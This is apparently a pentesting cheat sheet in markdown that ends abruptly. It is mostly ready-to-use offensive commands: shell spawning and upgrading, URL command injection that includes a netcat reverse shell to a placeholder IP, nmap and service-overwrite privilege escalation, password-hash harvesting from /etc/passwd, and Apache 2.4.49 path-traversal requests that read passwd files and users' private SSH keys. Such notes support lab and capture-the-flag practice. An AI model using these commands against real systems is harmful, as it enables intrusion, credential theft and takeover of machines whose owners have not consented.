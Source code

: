 ```

// python3 -c 'import pty;pty.spawn("/bin/bash")'
// sudo systemctl deamon-reload service.name
// sudo systemctl restart 
```
### MySQL exploitations
```
# Spawn a shell from
\!sh mySql - sudo mysql -u root -p

# Check mysql history for login details 
cat .mysql_history'
 ```

### Command line injection URL based
```
http://192.168.56.125:8080/administration.php?logfile=chat.txt;%20id
http://192.168.56.125:8080/administration.php?logfile=cat /etc/passwd
http://192.168.56.125:8080/administration.php?logfile=cd /home ls

http://192.168.56.125:8080/administration.php?logfile= chat.txt; nc IP PORT -e /bin/bash
```

### Run NMAP as root permissions
```
echo "os.execute('/bin/sh')">/tmp/root.nse
sudo nmap --script=/tmp/root.nse
```

### Read Passwd file
```
cat /etc/passwd
If readable -> take password hash of the user:
Follow -> https://www.makeuseof.com/use-hashcat-to-crack-hashes-linux/
```

### Create password for passwd file
``` openssl passwd 123 ```

### Overwrite user service with payload
``` 
cp /tmp/exploit.sh /usr/local/bin/service.sh
 ```
### Find username and password in sql file or similar
```
grep -Ei "user|password" dump.sql
```

### Reveal contents of a file Apache HTTP Server 2.4.49 Exploit- Path Traversal and Remote Code Execution
```
# Reveal passwd file
curl -s --path-as-is -d "echo Content-Type: text/plain;" "192.168.56.125/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
# Reveal private SSH keys for any users found
curl -s --path-as-is -d "echo Content-Type: text/plain;" "192.168.56.125/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/home/treehouse/.ssh/id_rsa"
```

### Port forwarding based off running python app
```